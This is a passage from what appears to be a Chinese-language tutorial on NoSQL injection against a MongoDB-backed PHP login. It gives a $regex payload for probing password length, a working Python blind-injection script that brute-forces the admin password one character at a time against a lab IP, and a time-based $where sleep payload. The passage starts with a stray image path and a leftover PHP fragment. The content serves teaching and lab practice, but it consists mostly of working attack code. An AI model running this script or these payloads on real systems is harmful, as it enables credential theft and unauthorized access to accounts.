 ```php
}
?>
```

判断playload：

```php
username=admin&password[$regex]=.{number}
```

附上m师傅的盲注脚本

```python
import requests
import string

password = ''
url = 'http://192.168.226.148/index.php'

while True:
    for c in string.printable:
        if c not in ['*', '+', '.', '?', '|', '#', '&', '$']:

            # When the method is GET
            get_payload = '?username=admin&password[$regex]=^%s' % (password + c)
            # When the method is POST
            post_payload = {
                "username": "admin",
                "password[$regex]": '^' + password + c
            }
            # When the method is POST with JSON
            json_payload = """{"username":"admin", "password":{"$regex":"^%s"}}""" % (password + c)
            #headers = {'Content-Type': 'application/json'}
            #r = requests.post(url=url, headers=headers, data=json_payload)    # 简单发送 json

            r = requests.post(url=url, data=post_payload)
            if 'Login Success' in r.text:
                print("[+] %s" % (password + c))
                password += c

# 输出如下: 
# [+] 1
# [+] 12
# [+] 123
# [+] 1234
# [+] 12345
# [+] 123456
```

#### 时间盲注

一些playload

```php
{"$where": "sleep(5000)"}
```
